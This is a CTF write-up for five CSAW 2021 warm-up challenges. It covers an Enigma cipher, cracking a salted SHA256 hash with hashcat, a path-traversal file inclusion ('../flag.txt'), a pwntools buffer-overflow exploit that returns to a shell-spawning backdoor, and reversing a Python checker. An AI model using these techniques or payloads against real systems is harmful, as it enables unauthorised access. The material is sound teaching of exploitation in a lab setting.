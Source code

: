 +++
title = "CSAW CTF Qualification Round 2021 - warm-up"
date = 2021-09-13
[taxonomies]
tags = ["ctf"]
+++

# Turing

## Task description

Recruiting the next Turing. See if you can break this historic cipher! Ciphertext: `jmodtrr_tdwumtu_cydy_ynsldf` You might need this: M3 UKW B

## Solution

[enigma online decoder](https://cryptii.com/pipes/enigma-decoder) \
foreign chars: include

flag: `flag{scruffy_looking_nerf_herder}`

# Crack Me

## Task description

Can you crack this? Your hash: `a60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c`. Your salt: the encryption method of the hash. (So if the hash is of the word example, you would submit flag{example} to score points.) UPDATE Friday 9PM: To streamline your efforts we would like to give you some more details about the format for the hash encryption method. An example: if you think the hash is RIPEMD-128, use ripemd128 for the salt.

## Solution

Using [hash identifier](https://hashes.com/en/tools/hash_identifier) I found out that it's a SHA256 hash.

Then I created a file for hashcat with the possible hashes (that was before the hint was added).

```
A60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c:sha256
A60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c:SHA256
```

And run it on the rockyou wordlist (-m flag explained [here](https://hashcat.net/wiki/doku.php?id=example_hashes)): \
`hashcat -m 1420 --show hashes.txt /usr/share/wordlists/rockyou.txt`

The output: \
`a60458d2180258d47d7f7bef5236b33e86711ac926518ca4545ebf24cdc0b76c:sha256:cathouse`

Therefore, the flag is: `flag{cathouse}`

# poem-collection

## Task description

Hey! I made a cool website that shows off my favorite poems. See if you can find flag.txt somewhere!

## Solution

Unfortunately, the organizers took the ctf's infrastructure down right after it ended but basically the site was printing out a file based on the parameter poem. For example: `http://web.chal.csaw.io:5003/poems/?poem=poem.txt`. In addition, the first time you browse to the site (without any parameter) you see this warning `Warning: file_get_contents(): Filename cannot be empty in /var/www/html/poems/index.php on line 4`.

My first try was: `http://web.chal.csaw.io:5003/poems/?poem=index.php` which dumped the site's code. Then I just tried out `flag.txt` and `../flag.txt` which worked.

The flag: `flag{l0c4l_f1l3_1nclusi0n_f0r_7h3_w1n}`

# Password Checker

## Task description

Charlie forgot his password to login into his Office portal. Help him to find it. (This challenge was written for the person on your team who has never solved a binary exploitation challenge before! Welcome to pwning.)

[password_checker](/files/csawctf2021/warm-up/password_checker)

## Solution

Opening it up in ghidra, we see this decompiled code:

```c
undefined8 main(EVP_PKEY_CTX *param_1)
{
  init(param_1);
  password_checker();
  return 0;
}

void password_checker(void)
{
  undefined8 local_a8;
  undefined local_a0;
  char local_78 [48];
  char local_48 [60];
  int local_c;

  printf("Enter the password to get in: \n>");
  gets(local_48);
  strcpy(local_78,local_48);
  local_a8 = 0x64726f7773736170;
  local_a0 = 0;
  local_c = strcmp(local_78,(char *)&local_a8);
  if (local_c == 0) {
    printf("You got in!!!!");
  }
  else {
    printf("This is not the password");
  }
  return;
}
```

In addition, we find a very convenient function included.

```c
void backdoor(void)
{
  system("/bin/sh");
  return;
}
```

So, the password checking thing is a diversion, what we're really interested in is the fact that the application uses `gets` to read the line. Stack buffer overflow!

Now, to the exploitation. First, generate a cyclic pattern a bit longer than the buffer `gets` writes to:

```
pwn cyclic 80
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
```

Then, run load the app in gdb and enter the pattern. We get the expected segfault. Let's read the $rsp:

```
(gdb) x/x $rsp
0x7fffffffdf28: 0x61616173
```

Get the length:

```
pwn cyclic -l 0x61616173
72
```

The last thing we need is the backdoor function's address:

```
(gdb) info address backdoor
Symbol "backdoor" is at 0x401172 in a file compiled without debugging.
```

The exploit:

```py3
from pwn import *

# io = process("./password_checker")
io = remote("pwn.chal.csaw.io", 5000)

payload = b"A" * 72 # or just use cyclic_find(0x61616173)
payload += p64(0x00401172)

io.sendline(payload)

io.interactive()
```

The flag: `flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}`

# checker

## Task description

What's up with all the zeros and ones? Where are my letters and numbers? (This is a reversing challenge.)

[checker.py](/files/csawctf2021/warm-up/checker.py)

## Solution

I just reversed the algorithm in the main function by adding these lines after the definition of the encrypted flag:

```py3
encoded = encoded[::-1]
encoded = right(encoded, 24)
encoded = down(encoded)
encoded = right(encoded, len(encoded) - 24)

for i in range(0, len(encoded), 8):
    c = int(encoded[i : i + 8], base=2)
    print(chr(c >> 1), end="")
```

The flag: `flag{r3vers!nG_w@rm_Up}`
